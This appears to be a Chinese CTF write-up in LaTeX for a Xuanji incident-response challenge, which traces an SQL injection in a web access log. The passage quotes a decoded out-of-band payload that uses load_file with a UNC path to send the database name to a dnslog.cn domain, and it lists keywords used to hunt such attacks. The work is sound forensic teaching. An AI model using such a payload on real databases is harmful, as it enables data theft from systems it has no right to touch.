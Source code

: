公开 Writeup 给出的 flag：flag\{Redis\_RCE\_PrivEsc\_Success\}。来源页：\href{https://xj.edisec.net/challenges/442/writeup}{玄机平台公开 Writeup}。

\chapter{安全事件响应}\label{ux5b89ux5168ux4e8bux4ef6ux54cdux5e94}

\begin{quote}
\textbf{本类知识点：} 应急响应题按时间、来源、请求和受影响对象串联证据；解码后的字段要放回原始请求上下文解释。
\end{quote}

\section{2026CCF-Sql注入的应急排查（ID \#450）}\label{ccf-sqlux6ce8ux5165ux7684ux5e94ux6025ux6392ux67e5id-450}

\textbf{题目信息：} 玄机 ID \#450；类型 应急响应；难度 中等。

\begin{quote}
\textbf{零基础知识点：} 带外（OAST）注入会把查询结果拼进 DNS 或 SMB 名称。URL 解码后要区分数据库名、回连域名和请求路径，并根据 SQL 与 UNC 路径上下文识别目标字段。
\end{quote}

题面描述企业告警显示大量 SQL 注入扫描，并且数据库服务器有异常 DNS 查询；要求从 Web access.log 中找出攻击者用于接收外带数据的域名。附件 ZIP 内是 access.log，大小 7,429,752 字节，保存于题目资料/Sql注入的应急排查\_450/access.log。

普通日志里多数是被 WAF 拦截的布尔型 SQL 注入尝试。依照题面关于异常 DNS 查询的提示，先用 dns、oast、interactsh、load\_file、dnslog、extractvalue、updatexml、concat 等关键词筛选。计数显示 load\_file 或 dnslog.cn 命中仅 1 条；第 43271 行来自 203.0.113.88，时间为 20/May/2024 14:02:30 +0800，状态码 200。

将 URL 编码的 query 解码，得到：

\begin{verbatim}
1' AND (SELECT load_file(concat('//',(select database()),'.p9fin2.dnslog.cn\abc'))) --
\end{verbatim}

load\_file 从拼接的 UNC 路径读取资源。数据库名被放到域名标签前，后缀接到题目指定的 DNSLog 域名；数据库服务器若尝试解析该路径，就会触发外部 DNS/SMB 名称解析，攻击者便能从 DNS 请求提取拼接进去的数据。针对该条唯一请求，题目指定的外带接收域名是 p9fin2.dnslog.cn，而不是数据库名或请求路径。

